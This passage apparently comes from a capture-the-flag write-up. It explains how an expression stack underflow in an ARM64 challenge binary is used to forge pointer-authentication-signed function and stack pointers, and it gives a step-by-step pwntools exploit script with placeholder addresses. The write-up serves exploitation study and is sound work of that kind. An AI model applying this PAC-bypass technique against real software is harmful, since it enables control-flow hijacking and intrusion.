 Since expressions are saved in 4 global adjacent save slots, causing underflow
in one expression gives us the ability to alter the contents of the previous
`struct expr`. We can abuse this to forge arbitary PAC-signed pointers.

More precisely, we can do the following:

1. Build `saved_exprs[0]` using 32 operations (it does not matter which ones).
2. Build `saved_exprs[1]` using operations that go back 4 stack slots and then
   take 2 inputs: (`out;out;out;out;in;in`). This will make the `op->stack`
   for the last two `in` instructions point respectively to
   `&saved_exprs[0].ops[31].stack` and `&saved_exprs[0].ops[31].func`.
3. Validate `saved_exprs[1]`. Validation will fail, but all operations will be
   signed regardless.
4. Build `saved_exprs[1]` again replacing the `out` with a harmless operation
   that does not move the stack (or moves it within bounds), such as:
   `neg;neg;neg;neg`.
5. Evaluate `saved_exprs[1]`. This will only validate the four `neg` and mark
   the expression as valid, then execute everything
   *including the previous `in` operations*. Since the `op->stack` of those two
   `in` points back at the `->stack` and `->func` of `saved_exprs[0].ops[31]`,
   we can now overwrite those with arbitrary values, crafting an op with
   arbitrary `->func` and `->stack`.
6. Validate `saved_exprs[0]` to sign the crafted op.

This boils down to the following (using pwntools):

```python
ARBITARRY_FUNC_ADDRESS  = 0x123 # to figure out later...
ARBITRARY_STACK_ADDRESS = 0x456 # to figure out later...

r = remote(...)
# 1: build a 32-op expr in slot 0
r.sendlineafter(b'> ', b'1')
r.sendlineafter(b': ', b'in;' * 32)
r.sendlineafter(b'? ', b'0')
# 2: build bad expr 1 to underflow its stack into expr 0
r.sendlineafter(b'> ', b'1')
r.sendlineafter(b': ', b'out;out;out;out;in;in')
r.sendlineafter(b'? ', b'1')
# 3: validate it
r.sendlineafter(b'> ', b'2')
r.sendlineafter(b'? ', b'1')
# 4: re-build with good ops to pass validation
r.sendlineafter(b'> ', b'1')
r.sendlineafter(b': ', b'neg;neg;neg;neg')
r.sendlineafter(b'? ', b'1')
# 5: evaluate to execute "neg;neg;neg;neg;in;in" (the two "in" are left-over
#    from the first build)
r.sendlineafter(b'> ', b'3')
r.sendlineafter(b'? ', b'1')
r.sendlineafter(b'Input a number: ', ARBITARRY_FUNC_ADDRESS)
r.sendlineafter(b'Input a number: ', ARBITRARY_STACK_ADDRESS)
# 6: validate expr 0 to sign ARBITARRY_FUNC_ADDRESS + ARBITRARY_STACK_ADDRESS
r.sendlineafter(b'> ', b'2')
r.sendlineafter(b'? ', b'0')
```


[aarch64-pacia]: https://developer.arm.com/documentation/dui0801/g/A64-General-Instructions/PACIA--PACIZA--PACIA1716--PACIASP--PACIAZ
[aarch64-autia]: https://developer.arm.com/documentation/dui0801/g/A64-General-Instructions/AUTIA--AUTIZA--AUTIA1716--AUTIASP--AUTIAZ
[aarch64-retaa]: https://developer.arm.com/documentation/dui0801/g/A64-General-Instructions/RETAA--RETAB
[ropgadget]: https://github.com/JonathanSalwan/ROPgadget